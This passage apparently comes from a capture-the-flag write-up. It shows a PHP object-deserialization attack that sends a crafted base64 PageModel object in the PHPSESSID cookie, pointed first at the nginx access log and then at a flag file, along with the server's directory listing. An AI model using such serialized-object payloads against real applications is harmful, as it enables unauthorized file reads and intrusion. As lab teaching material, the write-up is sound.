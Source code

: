 ```console
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```  
This will return a list of directories and imediatly we note that there is a `flag_Sz1aU` dir:  
```console
dev
entrypoint.sh
etc
flag_Sz1aU
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```  

Let's modify our payload again to get the content of that dir:  
```console
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag_Sz1aU";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfU3oxYVUiO30K
```  
Let's submit this via burp and here it is, we can see our flag is returned by the server!  
<div style="width: 65%; height: 65%">

  ![](images/burpsuite_flag.png)

</div> 


